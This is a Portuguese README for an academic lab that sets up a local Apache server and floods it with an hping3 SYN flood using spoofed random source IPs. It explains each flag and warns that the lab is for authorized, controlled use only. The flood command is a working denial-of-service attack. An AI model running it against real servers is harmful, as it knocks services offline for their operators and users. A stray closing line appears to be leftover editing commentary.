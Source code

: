 
---

# Simulação de Ataque DDoS  

Este projeto tem como objetivo simular um ataque DDoS (Distributed Denial of Service) em um servidor, utilizando a técnica **SYN Flood** para explorar vulnerabilidades na camada de transporte do modelo OSI.

---

## 📋 Sobre o Ataque  

### SYN Flood  
O **SYN Flood** é um tipo de ataque de negação de serviço (Denial of Service - DoS) que utiliza requisições TCP SYN para sobrecarregar o servidor, esgotando seus recursos e impedindo que ele processe novas conexões legítimas.

---

## 🚀 Preparação do Ambiente  

### Requisitos  
1. **Sistema Operacional Linux:** Utilize o **WSL2** (Windows Subsystem for Linux) para executar o subsistema Linux.  
2. **Ferramentas Necessárias:**  
   - Apache Server  
   - Hping3  

---

## 🛠️ Passo a Passo  

### 1. Configuração do Servidor  

#### Instalar o Apache Server  
Execute o comando abaixo para instalar o servidor Apache:  

```bash  
sudo apt-get install apache2  
```  

#### Iniciar o Servidor  
Ative e inicie o serviço do Apache:  

```bash  
sudo systemctl enable apache2  
sudo systemctl start apache2  
```  

#### Verificar o Status do Servidor  
Certifique-se de que o servidor está rodando:  

```bash  
sudo systemctl status apache2  
```  

#### Acessar o Conteúdo do Servidor  
1. Descubra o IP local do servidor:  
   ```bash  
   hostname -I  
   ```  
   (O comando retorna o IP local. Use a letra "I" maiúscula.)  
2. Copie o IP retornado e cole no navegador. A página inicial do servidor será exibida.  

---

### 2. Realizar o Ataque  

#### Instalar o Hping3  
Instale a ferramenta **hping3**, que será usada para simular o ataque:  

```bash  
sudo apt install hping3  
```  

#### Executar o Ataque SYN Flood  
Utilize o seguinte comando para realizar o ataque no servidor:  

```bash  
sudo hping3 -S -p 80 --flood --rand-source [IP_DO_SERVIDOR]  
```  

- **-S**: Envia pacotes SYN.  
- **-p 80**: Alvo na porta 80 (HTTP).  
- **--flood**: Envia pacotes continuamente.  
- **--rand-source**: Usa IPs de origem aleatórios.  
- **[IP_DO_SERVIDOR]**: Substitua pelo IP do servidor identificado no passo anterior.  

---

## ⚠️ Avisos  

- **Uso Ético:** Este trabalho é destinado exclusivamente para fins acadêmicos. Ataques DDoS são ilegais se realizados sem autorização.  
- **Impacto:** Realize o teste em um ambiente controlado para evitar prejudicar outros sistemas.  

--- 

Com essa estrutura, o conteúdo está mais organizado, com explicações claras e formatadas.
